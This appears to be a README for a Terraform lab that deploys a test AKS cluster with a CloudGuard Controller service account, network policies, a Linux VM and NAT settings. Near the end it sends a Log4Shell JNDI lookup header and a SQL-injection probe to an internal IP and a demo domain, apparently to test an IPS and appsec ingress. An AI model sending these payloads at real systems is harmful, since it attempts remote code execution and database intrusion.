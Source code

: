 # Service Account for CloudGuard Controller on CP Management for AKS

### Goals:
* build test AKS cluster
* define Service Account for CHKP CG Controller Datacenter Server (K8S) using TF
* test provided SA

### Usage
Open this as Github Codespace in VS Code Desktop and continue with commands:
```shell
# work in right context
cd /workspaces/tf-playground/33-aks-policy

# login to your Azure account
az login
# review
az account list -o table

# deploy test AKS cluster and CG Controller SA using TF
terraform init
# review and deploy
terraform apply

# no we have AKS cluster and SA for CG Controller usage

# our cluster
az aks list -o table
az aks get-credentials --admin --resource-group aks-sa-rg  --name aks-sa-cluster
kubectl get no
kubectl get ns

# Service account for CG Controller
# now terraform has both SA token and API URL in outputs
terraform output -raw sa_token
terraform output -raw api_server

# lets use it
T=$(terraform output -raw sa_token)
APISERVER=$(terraform output -raw api_server)
terraform output -raw api_server_cacert > /tmp/cacert.pem

curl -s $APISERVER/api/v1/namespaces/kube-system/pods/  --header "Authorization: Bearer $T" --cacert /tmp/cacert.pem | head

# cleanup
# because TF state is local, we would love to destroy env before destroying Codespace filesystem
terraform destroy
```

### AKS: TF module deploying test cluster to new VNET
* implemented in ./32-aks-sa/aks

### SA: TF module creating CG Controller SA using TF
* implemented in ./32-aks-sa/sa-k8s - look in cgcsa.tf

### Call AKS (K8S) API to list objects using SA token
* below

### After deployment

Once AKS is deployed, this is how to get kubectl access:
```shell
az aks list -o table
az aks get-credentials --admin --resource-group aks-sa-rg  --name aks-sa-cluster
kubectl get no
kubectl get ns
# should show my-first-namespace created with TF

# attempt to retrieve SA token
echo; kubectl get secret/cloudguard-controller -o json | jq -r .data.token | base64 -d ; echo; echo

# store in var T
T=$(kubectl get secret/cloudguard-controller -o json | jq -r .data.token | base64 -d); echo $T

# API server URL
APISERVER=https://$(kubectl -n default get endpoints kubernetes --no-headers | awk '{ print $2 }'); echo $APISERVER

# test it
curl -s $APISERVER/openapi/v2  --header "Authorization: Bearer $T" -k
# list PODs
curl -s $APISERVER/api/v1/namespaces/kube-system/pods/  --header "Authorization: Bearer $T" -k
```

### Network Policy

https://learn.microsoft.com/en-us/azure/aks/use-network-policies#overview-of-network-policy

```shell
# deploy service
kubectl create deploy web --image nginx --port 80

# connect from service to Internet - get public IP

# wait a bit ;-)
WEBPOD=$(kubectl get po -l app=web -o name | head -1)
kubectl exec -it $WEBPOD -- curl ip.iol.cz/ip/

# we can keep it probing and SPLIT THE TERMINAL
while true; do kubectl exec -it $WEBPOD -- curl -s -m1 ip.iol.cz/ip/; echo ; sleep 3; done

# now we deny all agress from default NS:
cat <<'EOF' | kubectl apply -f -
kind: NetworkPolicy
apiVersion: networking.k8s.io/v1
metadata:
  name: default-deny-all-egress
  namespace: default
spec:
  policyTypes:
  - Egress
  podSelector: {}
  egress: []
EOF

# did it impact the traffic from NGINX pod?

# lets allow it resolve DNS and do HTTP(S)
cat <<'EOF' | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: multi-port-egress
  namespace: default
spec:
  podSelector: {}
  policyTypes:
    - Egress
  egress:
    - ports:
        - protocol: TCP
          port: 53
        - protocol: UDP
          port: 53          
        - protocol: TCP
          port: 80
        - protocol: TCP
          port: 443
EOF

kubectl delete networkpolicy/multi-port-egress
```

### Linux VM

```shell
mkdir -p ~/.ssh
tf output -raw linux_key > ~/.ssh/linux1.key
chmod o= ~/.ssh/linux1.key
chmod g= ~/.ssh/linux1.key
tf output -raw linux_ssh_config
tf output -raw linux_ssh_config | tee  ~/.ssh/config
# should get Ubuntu machine prompt
ssh linux1
# try in VM
curl ip.iol.cz/ip/; echo; exit
# got public IP of Linux VM

# get IP of NGINX pod:
kubectl get pod -l app=web -o json | jq -r '.items[0].status.podIP'
# save
PODIP=$(kubectl get pod -l app=web -o json | jq -r '.items[0].status.podIP')
# linux should reach it (Azure CNI)
ssh linux1 curl $PODIP
# confirmed

ssh linux1 sudo apt update; ssh linux1 sudo apt install -y nginx
```


### Disable NAT for traffice from Pods

```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: azure-ip-masq-agent-config
  namespace: kube-system
  labels:
    component: ip-masq-agent
    kubernetes.io/cluster-service: "true"
    addonmanager.kubernetes.io/mode: EnsureExists
data:
  ip-masq-agent: |-
    nonMasqueradeCIDRs:
      - 0.0.0.0/0
    masqLinkLocal: true
EOF

# remove config mod
kubectl describe cm/azure-ip-masq-agent-config -n kube-system
kubectl delete cm/azure-ip-masq-agent-config -n kube-system

# scale web deploy
kubectl scale deploy web --replicas 11
PODS=$(kubectl get pod -l app=web -o name)
# go from every pod
while true; do
  for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 ip.iol.cz/ip/; echo; done
  for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 ifconfig.me; echo; done
  # log4j - IPS
  for P in $PODS; do echo $P; kubectl exec -it $P -- curl -m1 10.68.2.4  -H 'X-Log: ${jndi:ldap://example.com}'; echo; done
  sleep 2;
done

# local log4j to appsec ingress
curl -m1 https://aksdemo.klaud.online/?q=1 
curl -m1 https://aksdemo.klaud.online/?q=UNION+1=1
curl -m1 https://aksdemo.klaud.online/?q=1 -H 'X-Log: ${jndi:ldap://example.com}';
```

Ingress https://learn.microsoft.com/en-us/azure/firewall/protect-azure-kubernetes-service

```shell
kubectl apply -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: internal-web
  annotations:
    service.beta.kubernetes.io/azure-load-balancer-internal: "true"
spec:
  type: LoadBalancer
  ports:
  - port: 80
  selector:
    app: web
EOF

kubectl delete svc internal-web
kubectl get svc
```